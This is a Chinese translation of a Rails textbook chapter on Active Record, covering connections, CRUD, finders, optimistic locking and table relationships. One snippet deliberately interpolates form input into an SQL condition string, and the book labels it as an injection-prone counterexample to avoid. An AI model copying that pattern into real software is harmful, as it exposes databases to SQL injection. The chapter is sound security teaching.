如果你正在为 Rails 应用程序创建一个新的模式，你可能会想顺其自然，为所有表提供一个 `id` 列作为主键。<sup>5</sup> 如果你需要使用现有模式，Active Record 为你提供了一种简单的方法来覆盖表的默认主键名称。

```ruby
class BadBook < ActiveRecord::Base
  set_primary_key "isbn"
end
```

通常，Active Record 会负责为你创建并添加到数据库中的记录创建新的主键值——它们将是递增的整数（可能序列中有些间隔）。但是，如果你覆盖了主键列的名称，你也就承担了在保存新行之前将主键设置为唯一值的责任。也许令人惊讶的是，你仍然设置一个名为 `id` 的属性来执行此操作。就 Active Record 而言，主键属性始终使用名为 `id` 的属性来设置。`set_primary_key` 声明设置表中要使用的列的名称。在以下代码中，我们使用名为 `id` 的属性，即使数据库中的主键是 `isbn`。

```ruby
book = BadBook.new
book.id = "0-12345-6789"
book.title = "My Great American Novel"
### ...

book = BadBook.find("0-12345-6789")
puts book.title    # => "My Great American Novel"
p book.attributes  #=> {"isbn" =>"0-12345-6789",
                  "title"=>"My Great American Novel"}
```

更令人困惑的是，模型对象的属性具有列名 `isbn` 和 `title`——`id` 并未出现。当你需要设置主键时，使用 `id`。在所有其他情况下，使用实际的列名。

> <sup>5</sup> 正如我们稍后将看到的，连接表不包括在此建议中——它们*不*应具有 `id` 列。

## 16.4 连接到数据库

Active Record 抽象了数据库连接的概念，免除了应用程序处理与特定数据库交互的底层细节。相反，Active Record 应用程序使用通用调用，将细节委托给一组特定于数据库的适配器。（当代码开始进行基于 SQL 的查询时，这种抽象会略有破坏，我们稍后会看到。）

指定连接的一种方式是使用 `establish_connection()` 类方法。<sup>6</sup> 例如，以下调用创建了一个与名为 `raildb` 的 MySQL 数据库的连接，该数据库位于服务器 `dbserver.com` 上，并使用给定的用户名和密码。它将是所有模型类使用的默认连接。

```ruby
ActiveRecord::Base.establish_connection(
  :adapter  => "mysql",
  :host     => "dbserver.com",
  :database => "raildb",
  :username => "railsuser",
  :password => "railspw"
)
```

Active Record 支持 DB2、MySQL、Oracle、Postgres、SQLServer 和 SQLite 数据库（这个列表还会增长）。每个适配器接受一组略有不同的连接参数，如后页的图 16.2 所示。请注意，Oracle 适配器被称为 `oci`。

连接与模型类相关联。每个类都继承其父类的连接。由于 `ActiveRecord::Base` 是所有 Active Record 类的基类，为它设置连接就为所有你定义的 Active Record 类设置了默认连接。但是，你可以在需要时覆盖这一点。

在以下示例中，我们应用程序的大多数表都在一个名为 `online` 的 MySQL 数据库中。由于历史原因（还有其他原因吗？），`customers` 表位于后端数据库中。

```ruby
ActiveRecord::Base.establish_connection(
  :adapter  => "mysql",
  :host     => "dbserver.com",
  :database => "online",
  :username => "groucho",
  :password => "swordfish")
```

<sup>6</sup> 在完整的 Rails 应用程序中，还有另一种指定连接的方式。我们将在第 230 页进行描述。

连接参数：

| `:adapter` | db2 | mysql | oci | postgresql | sqlite | sqlserver |
|---|---|---|---|---|---|---|
| `:database` | *必填* | *必填* | | *必填* | | *必填* |
| `:host` | | localhost | *必填* | localhost | | localhost |
| `:username` | ✓ | root | *必填* | ✓ | | sa |
| `:password` | ✓ | ✓ | *必填* | ✓ | | ✓ |
| `:port` | | 3306 | | 5432 | | |
| `:sslcert` | | ✓ | | | | |
| `:sslcapath` | | ✓ | | | | |
| `:sslcipher` | | ✓ | | | | |
| `:socket` | | /tmp/mysql.sock | | | | |
| `:sslkey` | | ✓ | | | | |
| `:schema_order` | | | | ✓ | | |
| `:dbfile` | | | | | | *必填* |

图 16.2：连接参数

```ruby
class LineItem < ActiveRecord::Base
  # ...
end

class Order < ActiveRecord::Base
  # ...
end

class Product < ActiveRecord::Base
  # ...
end

class Customer < ActiveRecord::Base
  # ...
end

Customer.establish_connection(
  :adapter  => "mysql",
  :host     => "dbserver.com",
  :database => "backend",
  :username => "chicho",
  :password => "piano")
```

当我们之前在本书中编写 Depot 应用程序时，我们没有使用 `establish_connection()` 方法。相反，我们在文件 `config/database.yml` 中指定了连接参数。对于大多数 Rails 应用程序，这是首选的工作方式。它不仅将所有连接信息移出代码，而且与 Rails 的测试和部署哲学配合得更好。图 16.2 中的所有参数也可以在 YAML 文件中使用。详情请参见第 230 页的第 14.3 节“配置数据库连接”。

最后，你可以结合这两种方法。如果你向 `establish_connection()` 传递一个符号，Rails 会在 `database.yml` 中查找该名称的部分，并基于在那里找到的参数建立连接。这样你就可以将所有连接细节移出代码。

## 16.5 CRUD——创建、读取、更新、删除

Active Record 使得在数据库表上实现四个基本操作变得容易：创建、读取、更新和删除。

在本节中，我们将使用 MySQL 数据库中的 `orders` 表。以下示例假设我们有一个针对此表的基本 Active Record 模型。

```ruby
class Order < ActiveRecord::Base
end
```

### 创建新行

在对象-关系范式中，表表示为类，表中的行对应于该类的对象。通过创建相应类的新对象来在表中创建新行似乎是合理的。我们可以通过调用 `Order.new()` 来创建代表我们 `orders` 表中行的新对象。然后我们可以填充属性的值（对应于数据库中的列）。最后，我们调用对象的 `save()` 方法将订单存储回数据库。如果没有这个调用，订单将只存在于我们的本地内存中。

```ruby
an_order = Order.new
an_order.name      = "Dave Thomas"
an_order.email     = "dave@pragprog.com"
an_order.address   = "123 Main St"
an_order.pay_type = "check"
an_order.save
```

Active Record 构造函数接受一个可选的块。如果存在，该块将以新创建的订单作为参数被调用。如果你想在不创建新局部变量的情况下创建并保存一个订单，这可能会很有用。

```ruby
Order.new do |o|
  o.name         = "Dave Thomas"
  # . . .
  o.save
end
```

最后，Active Record 构造函数接受一个属性值哈希作为可选参数。此哈希中的每个条目对应于要设置的属性的名称和值。正如我们将在本书后面看到的，当将 HTML 表单中的值存储到数据库行中时，这很有用。

```ruby
an_order = Order.new(
  :name      => "Dave Thomas",
  :email     => "dave@pragprog.com",
  :address   => "123 Main St",
  :pay_type => "check")
an_order.save
```

请注意，在所有这些示例中，我们都没有设置新行的 `id` 属性。因为我们使用了 Active Record 默认的整数列作为主键，Active Record 在保存行之前会自动创建一个唯一的值并设置 `id` 属性。我们随后可以通过查询该属性来找到这个值。

```ruby
an_order = Order.new
an_order.name = "Dave Thomas"
### . . .
an_order.save
puts "The ID of this order is #{an_order.id}"
```

`new()` 构造函数在内存中创建一个新的 Order 对象；我们必须记住在某个时候将其保存到数据库。Active Record 有一个便捷方法 `create()`，它既实例化模型对象又将其存储到数据库中。


```ruby
an_order = Order.create(
  :name     => "Dave Thomas",
  :email    => "dave@pragprog.com",
  :address  => "123 Main St",
  :pay_type => "check")
```

你可以向`create()`传递一个属性哈希数组；它将在数据库中创建多行，并返回相应模型对象的数组。

```ruby
orders = Order.create(
  [ { :name       => "Dave Thomas",
      :email      => "dave@pragprog.com",
      :address    => "123 Main St",
      :pay_type => "check"
    },
    { :name       => "Andy Hunt",
      :email      => "andy@pragprog.com",
      :address    => "456 Gentle Drive",
      :pay_type => "po"
    } ] )
```

`new()`和`create()`接受哈希值的真正原因是你可以直接从表单参数构造模型对象。

```ruby
order = Order.create(params)
```

### 读取现有行

从数据库读取首先涉及指定你感兴趣的数据的特定行——你将给 Active Record 某种标准，它将返回包含匹配标准的行数据的对象。

在表中查找行的最简单方法是指定其主键。每个模型类都支持`find()`方法，该方法接受一个或多个主键值。如果只给一个主键，它返回一个包含相应行数据的对象（或抛出`RecordNotFound`异常）。如果给多个主键值，`find()`返回相应对象的数组。请注意，在这种情况下，如果任何 id 无法找到，则会返回`RecordNotFound`异常（因此，如果方法在不引发错误的情况下返回，结果数组的长度将等于作为参数传递的 id 数量）。

```ruby
an_order = Order.find(27)    # 查找 id == 27 的订单

### 从表单中获取产品 id 列表，然后
### 计算总价
product_list = params[:product_ids]
total = 0.0
Product.find(product_list).each {|prd| total += prd.total}
```

不过，通常你需要根据主键值以外的标准来读取数据行。Active Record 提供了多种选项来执行这些查询。我们将从研究底层的`find()`方法开始，然后再介绍更高级的动态查找器。

到目前为止，我们仅仅触及了`find()`的皮毛，只用它来根据传入的参数（ID）返回一行或多行数据。然而，`find()`有点像具有双重性格。如果你传入`:first`或`:all`这两个符号中的一个作为第一个参数，原本不起眼的`find()`就会变身为一个功能异常强大的搜索引擎。

`find()`的`:first`变体返回符合一组条件的第一行数据，而`:all`形式则返回匹配行的一个数组。这两种形式都接受一组关键字参数来控制它们的行为。但在我们探讨这些参数之前，我们需要花一两页的篇幅来解释 Active Record 如何处理 SQL。

### SQL 和 Active Record

为了说明 Active Record 如何与 SQL 协同工作，让我们看看`find(:all, :conditions => ...)`方法调用中的`:conditions`参数。这个`:conditions`参数决定了`find()`返回哪些行；它对应于 SQL 的`where`子句。例如，要返回所有属于 Dave 且支付类型为 "po" 的订单列表，你可以使用：

```ruby
pos = Order.find(:all,
             :conditions => "name = 'dave' and pay_type = 'po'")
```

结果将是一个包含所有匹配行的数组，每一行都被整齐地包装在一个`Order`对象中。如果没有订单符合条件，数组将为空。

如果你的条件是预先定义好的，这很好，但如何处理客户名称是外部设置的情况（可能来自网页表单）呢？一种方法是将该变量的值代入条件字符串中。

```ruby
### 从表单获取限额数量
name = params[:name]
### 千万不要这样做！！！
pos = Order.find(:all,
             :conditions => "name = '#{name}' and pay_type = 'po'")
```

正如注释所示，这确实不是个好主意。为什么？因为它会让你的数据库完全暴露在所谓的*SQL 注入*攻击之下，我们将在第 23 章《保护你的 Rails 应用程序》（第 510 页）中更详细地描述这一点。现在，请将以下事实视为理所当然：将外部来源的字符串直接代入 SQL 语句，实际上等同于将你的整个数据库发布给整个互联网世界。

相反，生成动态 SQL 的安全方法是让 Active Record 来处理它。凡是可以传入包含 SQL 的字符串的地方，你也可以传入一个数组。这个数组的第一个元素是一个包含 SQL 的字符串。在这个 SQL 中，你可以嵌入占位符，这些占位符将在运行时被数组中其余的值替换。

指定占位符的一种方法是在 SQL 中插入一个或多个问号。第一个问号被数组的第二个元素替换，下一个问号被第三个替换，依此类推。例如，我们可以将之前的查询重写为：

```ruby
name = params[:name]
pos = Order.find(:all,
              :conditions => ["name = ? and pay_type = 'po'", name])
```

你也可以使用命名占位符。每个占位符的形式为`:name`，相应的值以哈希（hash）形式提供，其中的键对应于查询中的名称。

```ruby
name      = params[:name]
pay_type = params[:pay_type]
pos = Order.find(:all,
              :conditions => ["name = :name and pay_type = :pay_type",
                             {:pay_type => pay_type, :name => name}])
```

你可以更进一步。因为`params`实际上是一个哈希，你可以直接将整个哈希传递给条件。

```ruby
pos = Order.find(:all,
              :conditions => ["name = :name and pay_type = :pay_type", params])
```

无论你使用哪种形式的占位符，Active Record 都会非常小心地对将被代入 SQL 的值进行引用和转义。使用这些形式的动态 SQL，Active Record 将确保你免受注入攻击。

### 强大的`find()`

既然我们知道如何指定条件，接下来让我们关注`find(:first, ...)`和`find(:all, ...)`支持的各种选项。

首先，理解这一点很重要：`find(:first, ...)`生成的 SQL 查询与使用相同条件的`find(:all, ...)`是相同的，只是结果集被限制为单行。我们将在一个地方描述这两个方法的参数，并使用`find(:all, ...)`来说明它们。我们将调用第一个参数为`:first`或`:all`的`find()`称为*查找方法*。

在没有额外参数的情况下，查找方法实际上执行一个`select from...`语句。`:all`形式返回表中的所有行，`:first`返回一行。顺序是不确定的（因此`Order.find(:first)`不一定返回你的应用程序创建的第一个订单）。

`:conditions`参数让你可以指定传递给`find()`方法使用的 SQL where 子句的条件。这个条件可以是包含 SQL 的字符串，也可以是包含 SQL 和替换值的数组，如前一节所述。（从现在开始，我们不会明确提及这一点——无论何时我们谈到 SQL 参数，都假设该方法可以接受数组或字符串。）

```ruby
daves_orders = Order.find(:all, :conditions => "name = 'Dave'")

name = params[:name]
other_orders = Order.find(:all, :conditions => ["name = ?", name])

yet_more = Order.find(:all,
              :conditions => ["name = :name and pay_type = :pay_type", params])
```

除非你在查询中明确添加`order by`子句，否则 SQL 不保证行会按任何特定顺序返回。`:order`参数让你可以指定通常添加在`order by`关键字之后的条件。例如，以下查询将返回 Dave 的所有订单，首先按支付类型排序，然后按发货日期排序（后者按降序）。

```ruby
orders = Order.find(:all,
                    :conditions => "name = 'Dave'",
                    :order       => "pay_type, shipped_at DESC")
```

你可以使用`:limit`参数来限制`find(:all, ...)`返回的行数。如果使用 limit 参数，你可能还想指定排序顺序以确保结果一致。例如，以下仅返回前 10 个匹配的订单。

```ruby
orders = Order.find(:all,
                    :conditions => "name = 'Dave'",
                    :order       => "pay_type, shipped_at DESC",
                    :limit       => 10)
```

`:offset`参数与`:limit`参数相辅相成。它允许你指定`find()`返回的结果集中第一行的偏移量。

```ruby
### 视图希望将订单按页分组显示，
### 每页显示 page_size 个订单。
### 此方法返回第 page_num 页（从零开始）的订单。
def Order.find_on_page(page_num, page_size)
  find(:all,
       :order => "id",
       :limit => page_size,
       :offset => page_num*page_size)
end
```

查找方法的`:joins`参数让你可以指定要连接到默认表的附加表列表。该参数被插入到 SQL 中紧随模型表名之后、第一个参数指定的任何条件之前的位置。连接语法是特定于数据库的。以下代码返回名为 Programming Ruby 的书籍的所有订单项列表。

```ruby
LineItem.find(:all,
              :conditions => "pr.title = 'Programming Ruby'",
              :joins       => "as li inner join products as pr on li.product_id = pr.id")
```

### David 说……

#### 但 SQL 不是“不干净”吗？

自从程序员开始在关系数据库之上构建面向对象系统以来，他们一直在努力解决抽象深度的问题。一些对象关系映射器试图完全消除 SQL 的使用，力求通过强迫所有查询都通过另一个面向对象层来达到面向对象的纯粹性。

Active Record 并非如此。它的构建基于这样一种理念：SQL 既不“不干净”也不糟糕，只是在简单情况下显得冗长。其重点在于消除在那些简单情况下处理冗长代码的需要（手工编写一个包含10个属性的 insert 语句会让任何程序员都感到疲惫），同时保留其在复杂查询中的表现力——而这正是 SQL 被创造出来要优雅处理的那类查询。

因此，当你使用`find_by_sql()`来处理性能瓶颈或复杂查询时，不应该感到内疚。起初使用面向对象接口以提高生产力和乐趣，然后在需要更接近底层（metal）的体验时，再深入探究表面之下。

### 表与表之间的关系

正如我们将在第16.6节（第277页）“表与表之间的关系”中看到的那样，你可能不会经常使用`find()`的`:joins`参数——Active Record 会为你处理大多数常见的表间连接。

还有一个额外的参数`:include`，它只在定义了关联（associations）时才会生效。我们将在第297页开始讨论它。

`find(:all, ...)`方法返回一个模型对象数组。如果你希望只返回一个对象，请使用`find(:first, ...)`。它接受与`:all`形式相同的参数，但`:limit`参数会被强制设为 1，因此只会返回一行数据。

```ruby
### 按任意顺序返回
order = Order.find(:first)

### 返回 Dave 的订单
order = Order.find(:first, :conditions => "name = 'Dave Thomas'")

### 返回 Dave 的最新订单
order = Order.find(:first,
                   :conditions => "name = 'Dave Thomas'",
                   :order       => "id DESC")
```

如果传给`find(:first, ...)`的条件导致从表中选中了多行，则返回其中的第一行。如果没有选中任何行，则返回`nil`。

`find()`方法会为你构建完整的 SQL 查询字符串。而`find_by_sql()`方法则允许你的应用程序完全控制查询。它接受一个包含 SQL select 语句的参数，并返回一个（可能为空的）模型对象数组。这些模型中的属性将根据查询返回的列进行设置。通常你会使用`select *`形式来返回表中的所有列，但这并不是必须的。⁷

```ruby
orders = LineItem.find_by_sql("select line_items.* from line_items, orders " +
                            "  where order_id = orders.id             " +
                            "  and orders.name = 'Dave Thomas'         ")
```

只有查询返回的属性才会在最终的模型对象中可用。你可以使用`attributes()`、`attribute_names()`和`attribute_present?()`方法来确定模型对象中可用的属性。

> ⁷但如果你的查询没有获取主键列，你将无法将模型中的更新数据写回数据库。参见第344页的第17.7节“丢失的ID案例”。

第一个方法返回一个属性名/值对的哈希，第二个方法返回一个名称数组，第三个方法在指定的属性在当前模型对象中可用时返回 true。

```ruby
orders = Order.find_by_sql("select name, pay_type from orders")

first = orders[0]
p first.attributes
p first.attribute_names
p first.attribute_present?("address")
```

这段代码输出：

```
{"name"=>"Dave Thomas", "pay_type"=>"check"}
["name", "pay_type"]
false
```

`find_by_sql()`也可用于创建包含派生列数据的模型对象。如果你使用`as xxx` SQL 语法为结果集中的派生列命名，这个名称将被用作属性的名称。

```ruby
items = LineItem.find_by_sql("select *, " +
                "     quantity*unit_price as total_price, " +
                "     products.title as title          " +
                "  from line_items, products            " +
                " where line_items.product_id = products.id ")
li = items[0]
puts "#{li.title}: #{li.quantity}x#{li.unit_price} => #{li.total_price}"
```

与条件查询类似，你也可以向`find_by_sql()`传递一个数组，其中第一个元素是包含占位符的字符串。数组的其余部分可以是哈希或要替换的值列表。

```ruby
Order.find_by_sql(["select * from orders where amount > ?",
                   params[:amount]])
```

### 计算行数


Active Record 定义了两个类方法，用于返回匹配条件的行数。`count()` 方法返回匹配给定条件的行数（如果未给定条件，则返回所有行）。`count_by_sql()` 方法返回一个由 SQL 语句生成的数字（该语句通常是一个 `select count(*) from...`）。

```ruby
c1 = Order.count
c2 = Order.count(["name = ?", "Dave Thomas"])
```

David Says...

### 是否要引发异常？

当你使用基于主键的查找器时，你是在寻找特定的记录。你期望它存在。调用 `Person.find(5)` 是基于我们对 person 表的了解。我们想要 id 为 5 的那一行。如果这个调用不成功——如果 id 为 5 的记录已被销毁——我们就处于异常情况。这要求引发异常，因此 Rails 会引发 `RecordNotFound`。

另一方面，使用条件进行搜索的查找器是在寻找一个*匹配项*。因此，`Person.find(:first, :condition=>"name='Dave'")` 相当于告诉数据库（作为一个黑盒），“给我第一个名字为 Dave 的 person 行。” 这体现了一种截然不同的检索方法；我们事先并不确定会得到结果。结果集完全可能为空。因此，对于搜索单行的查找器返回 `nil`，对于搜索多行的查找器返回空数组，是自然且非异常的响应。

```ruby
c3 = LineItem.count_by_sql("select count(*)" +
                          " from line_items, orders" +
                          " where line_items.order_id = orders.id" +
                          " and orders.name = 'Dave Thomas'")
puts "Dave has #{c3} line items in #{c2} orders (#{c1} orders in all)"
```

### 动态查找器

对数据库执行的最常见搜索可能是返回列与给定值匹配的行。查询可能是*返回 Dave 的所有订单*，或*获取所有主题为“Rails”的博客文章*。在许多其他语言和框架中，你需要构建 SQL 查询来执行这些搜索。Active Record 使用 Ruby 的动态特性为你完成此操作。

例如，我们的 Order 模型具有诸如 `name`、`email` 和 `address` 等属性。我们可以在查找器方法中使用这些名称来返回对应列与某个值匹配的行。

```ruby
order   = Order.find_by_name("Dave Thomas")
orders  = Order.find_all_by_name("Dave Thomas")
order   = Order.find_all_by_email(params['email'])
```

如果你调用一个模型的类方法，其名称以 `find_by_` 或 `find_all_by_` 开头，Active Record 会将其转换为查找器，使用方法名称的其余部分来确定要检查的列。因此，调用：

```ruby
order = Order.find_by_name("Dave Thomas", other_args...)
```

会被 Active Record（有效地）转换为：

```ruby
order = Order.find(:first,
    :conditions => ["name = ?", "Dave Thomas"],
    other_args...)
```

同样，对 `find_all_by_xxx` 的调用会被转换为匹配的 `find(:all, ...)` 调用。

神奇之处还不止于此。Active Record 还会创建在多列上进行搜索的查找器。例如，你可以编写：

```ruby
user = User.find_by_name_and_password(name, pw)
```

这等同于：

```ruby
user = User.find(:first,
    :conditions => ["name = ? and password = ?", name, pw])
```

为了确定要检查的列名，Active Record 只需将 `find_by_` 或 `find_all_by_` 后面的名称按字符串 `_and_` 进行拆分。这在大多数情况下已经足够，但如果你的列名类似 `tax_and_shipping`，它就会失效。在这些情况下，你必须使用常规的查找器方法。

而且，不，不存在允许你在列名之间使用 `_or_` 而不是 `_and_` 的 `find_by_` 形式。

### 重新加载数据

在一个可能被多个进程（或多个应用程序）访问数据库的应用程序中，获取的模型对象总是可能变得过时——可能有人已经将更新的副本写入了数据库。

在某种程度上，这个问题通过事务支持（我们将在第 300 页介绍）得到解决。然而，仍然会有需要手动刷新模型对象的时候。Active Record 使这变得简单——只需调用其 `reload()` 方法，对象的属性就会从数据库中刷新。

```ruby
stock = Market.find_by_ticker("RUBY")

loop do
  puts "Price = #{stock.price}"

  sleep 60

  stock.reload
end
```

实际上，`reload()` 方法在单元测试之外很少使用。

### 更新现有行

在详细讨论了查找方法之后，您会很高兴地得知，使用 Active Record 更新记录的内容并不多。

如果您有一个 Active Record 对象（可能代表我们 orders 表中的一行），可以通过调用其 `save()` 方法将其写入数据库。如果该对象之前已从数据库中读取，这次保存将更新现有的行；否则，保存操作将插入一个新行。

如果更新现有的行，Active Record 将使用其主键列将该行与内存中的对象进行匹配。Active Record 对象中包含的属性决定了哪些列将被更新——即使某个列的值没有改变，它也会在数据库中被更新。在以下示例中，订单 123 行中的所有值都将在数据库表中被更新。

```ruby
order = Order.find(123)
order.name = "Fred"
order.save
```

然而，在下一个示例中，Active Record 对象仅包含 id、name 和 paytype 属性——当对象被保存时，只有这些列会被更新。（请注意，如果您打算保存使用 `find_by_sql()` 获取的行，则必须包含 id 列。）

```ruby
orders = Order.find_by_sql("select id, name, pay_type from orders where id=123")
first = orders[0]
first.name = "Wilma"
first.save
```

除了 `save()` 方法，Active Record 还允许您通过一次调用 `update_attribute()` 来更改属性值并保存模型对象。

```ruby
order = Order.find(123)
order.update_attribute(:name, "Barney")

order = Order.find(321)
order.update_attributes(:name => "Barney",
                       :email => "barney@bedrock.com")
```

最后，我们可以结合使用类方法 `update()` 和 `update_all()` 来读取一行并更新它。`update()` 方法接受一个 id 参数和一组属性。它获取对应的行，更新给定的属性，将结果保存回数据库，并返回模型对象。

```ruby
order = Order.update(12, :name => "Barney", :email => "barney@bedrock.com")
```

您可以将一个 id 数组和一个属性值哈希数组传递给 `update()`，它将更新数据库中所有相应的行，并返回一个模型对象数组。

最后，`update_all()` 类方法允许您指定 SQL update 语句的 set 子句和 where 子句。例如，以下语句将所有标题中包含 *Java* 的产品的价格提高 10%。

```ruby
result = Product.update_all("price = 1.1*price", "title like '%Java%'")
```

`update_all()` 的返回值取决于数据库适配器；大多数（但不是 Oracle）返回数据库中被更改的行数。

### `save()` 和 `save!()`

事实证明，`save()` 方法有两个版本。

普通的 `save()` 在模型对象有效且可以保存时返回 `true`。

```ruby
if order.save
  # 一切正常
else
  # 验证失败
end
```

您需要在每次调用 `save()` 时检查它是否按预期工作。Active Record 如此宽松的原因是，它假定 `save()` 是在控制器的 action 方法上下文中调用的，并且视图代码将向最终用户呈现任何错误。对于许多应用程序来说，情况确实如此。

但是，如果您需要在希望确保所有错误都以编程方式处理的上下文中保存模型对象，则应使用 `save!()`。如果对象无法保存，此方法会引发 `RecordInvalid` 异常。

```ruby
begin
  order.save!
rescue RecordInvalid => error
  # 验证失败
end
```



### 乐观锁

在多个进程访问同一数据库的应用程序中，如果另一个进程更新了底层数据库行，一个进程持有的数据可能会变得过时。

例如，两个进程可能会获取对应于特定账户的行。在几秒钟内，两者都去更新该余额。每个进程都使用初始行内容加载一个 Active Record 模型对象。在不同的时间，它们各自使用其本地模型副本来更新底层行。结果是一种竞争条件，其中最后更新该行的人获胜，而第一个人的更改丢失。这在图 16.3 中显示。

该问题的一个解决方案是锁定正在更新的表或行。通过防止其他人访问或更新它们，锁定可以克服并发问题，但这是一个相当粗暴的解决方案。它假设事情会出错，因此为了以防万一而进行锁定。由于这个原因，这种方法通常被称为悲观锁。悲观锁对于 Web 应用程序来说是不可行的，因为如果您需要确保跨多个用户请求的一致性，管理锁以使数据库不会停滞是非常困难的。

乐观锁不采用显式锁。相反，就在将更新后的数据写回一行之前，它会检查以确保没有其他人已经更改了该行。在 Rails 的实现中，每一行都包含一个版本号。每当更新一行时，版本号就会递增。当您从应用程序内部执行更新时，Active Record 会检查表中行的版本号与进行更新的模型的版本号。如果两者不匹配，它将放弃更新并抛出异常。

乐观锁在包含名为 `lock_version` 的整数列的任何表上默认启用。您应该安排该列在新行时初始化为零，但除此之外您应该不要管它——Active Record 会为您管理细节。

让我们看看乐观锁的实际应用。我们将创建一个名为 counters 的表，其中包含一个简单的 count 字段以及 `lock_version` 列。

```sql
create table counters (
    id               int    not null auto_increment,
    count            int    default 0,
    lock_version     int    default 0,
    primary key (id)
);
```

然后我们将在表中创建一行，将该行读入两个单独的模型对象，并尝试从每个对象更新它。

```ruby
class Counter < ActiveRecord::Base
end

Counter.delete_all
Counter.create(:count => 0)

count1 = Counter.find(:first)
count2 = Counter.find(:first)

count1.count += 3
count1.save

count2.count += 4
count2.save
```

当我们运行这个时，会看到一个异常。Rails 中止了对 count2 的更新，因为它持有的值已过时。

```text
/usr/lib/ruby/gems/1.8/gems/activerecord-1.9.0/lib/active_record/locking.rb:42:in `update_without_timestamps': Attempted to update a stale object (ActiveRecord::StaleObjectError)
```

如果您使用乐观锁，您将需要在应用程序中捕获这些异常。

您可以通过以下方式禁用乐观锁：

```ruby
ActiveRecord::Base.lock_optimistically = false
```

### 删除行

Active Record 支持两种行删除方式。首先，它有两个类级别的方法，`delete()` 和 `delete_all()`，它们在数据库级别操作。`delete()` 方法接受单个 id 或 id 数组，并删除底层表中的相应行。`delete_all()` 删除匹配给定条件的行（如果未指定条件，则删除所有行）。两个调用的返回值都取决于适配器，但通常是受影响的行数。如果该行在调用前不存在，不会抛出异常。

```ruby
Order.delete(123)
User.delete([2,3,4,5])
Product.delete_all(["price > ?", @expensive_price])
```

各种 destroy 方法是 Active Record 提供的第二种行删除形式。这些方法都通过 Active Record 模型对象工作。

`destroy()` 实例方法从数据库中删除对应于特定模型对象的行。然后它冻结该对象的内容，防止将来对属性的更改。

```ruby
order = Order.find_by_name("Dave")
order.destroy
### ... order 现在已冻结
```

有两个类级别的销毁方法，`destroy()`（接受一个 id 或 id 数组）和 `destroy_all()`（接受一个条件）。两者都将数据库表中相应的行读入模型对象，并调用该对象的实例级 `destroy()` 方法。这两个方法都不返回任何有意义的东西。

为什么我们需要 delete 和 destroy 类方法？`delete()` 方法绕过了各种 Active Record 回调和验证功能，而 `destroy()` 方法确保它们都被调用。（我们从第 331 页开始讨论回调。）通常最好使用 `destroy()` 方法。

```ruby
Order.destroy_all(["shipped_at < ?", 30.days.ago])
```

## 16.6 表之间的关系

大多数应用程序都需要操作数据库中的多个表，通常其中一些表之间会存在关系。订单会包含多个明细项。明细项会引用某个特定的产品。一个产品可能属于多个不同的产品类别，而每个类别也可能包含多个不同的产品。

在数据库模式中，这些关系通过基于主键值连接表来表达。⁸ 如果一个明细项引用一个产品，那么 `line_items` 表将包含一个列，该列保存 `products` 表中对应行的主键值。用数据库的术语来说，`line_items` 表被认为对 `products` 表有一个*外键*引用。

但这些都是相当底层的细节。在我们的应用程序中，我们希望处理模型对象及其关系，而不是数据库行和键列。如果一个订单有多个明细项，我们希望有某种方式来遍历它们。如果一个明细项引用一个产品，我们希望能简单地表达，比如：

```ruby
price = line_item.product.price
```

而不是：

```ruby
product_id = line_item.product_id
product    = Product.find(product_id)
price      = product.price
```

Active Record 来解救了。它作为 ORM（对象关系映射）的魔力之一，就是将数据库中的底层外键关系转换为高层的对象间映射。它处理三种基本情况：

- 表 A 中的一行与表 B 中的零行或一行相关联。
- 表 A 中的一行与表 B 中的任意数量的行相关联。
- 表 A 中的任意数量的行与表 B 中的任意数量的行相关联。

> ⁸ 模型对象之间还有另一种关系样式，其中一个模型是另一个模型的子类。我们将在第 17.3 节*单表继承*（第 318 页）中讨论这个问题。

当涉及到表间关系时，我们必须给 Active Record 提供一点帮助。这实际上不是 Active Record 的错——无法从模式推断出开发者意图的表间关系类型。然而，我们需要提供的帮助量是极少的。

### 创建外键

正如我们之前讨论的，当一个表包含对另一个表主键的外键引用时，两个表就产生了关联。在以下 DDL（数据定义语言）中，`line_items` 表包含对 `products` 和 `orders` 表的外键引用。

```sql
create table products (
    id         int         not null auto_increment,
    title      varchar(100) not null,
    /* ... */
    primary key (id)
);
```

```sql
create table orders (
    id         int         not null auto_increment,
    name       varchar(100) not null,
    /* ... */
    primary key (id)
);
```


```sql
create table line_items (
    id          int         not null auto_increment,
    product_id  int         not null,
    order_id    int         not null,
    quantity    int         not null default 0,
    unit_price  float(10,2) not null,
    constraint fk_items_product foreign key (product_id) references products(id),
    constraint fk_items_order   foreign key (order_id) references orders(id),
    primary key (id)
);
```

值得注意的是，建立关系的并非外键约束。这些约束只是给数据库的提示，要求它检查列中的值是否引用目标表中的已知键。数据库管理系统（DBMS）可以自由忽略这些约束（某些版本的 MySQL 就是这样做的）。表间关系的建立仅仅是因为开发者选择在 `product_id` 和 `order_id` 列中填入来自 `products` 和 `orders` 表的键值。

查看这个 DDL，我们就能明白为什么 Active Record 很难自动推断表之间的关系。`line_items` 表中的 `orders` 和 `products` 外键引用看起来一模一样。然而，`product_id` 列用于将明细项与一个特定产品关联。`order_id` 列用于将多个明细项与一个订单关联。明细项是订单的一部分，但它引用了产品。

这个示例也展示了标准的 Active Record 命名约定。外键列应以目标表的类名命名，转换为小写，并附加 `_id`。请注意，考虑到复数形式和附加 `_id` 的约定，假设的外键名称将始终与被引用表的名称不同。如果你有一个名为 `Person` 的 Active Record 模型，它将映射到数据库表 `people`。其他表对 `people` 表的外键引用，其列名将是 `person_id`。

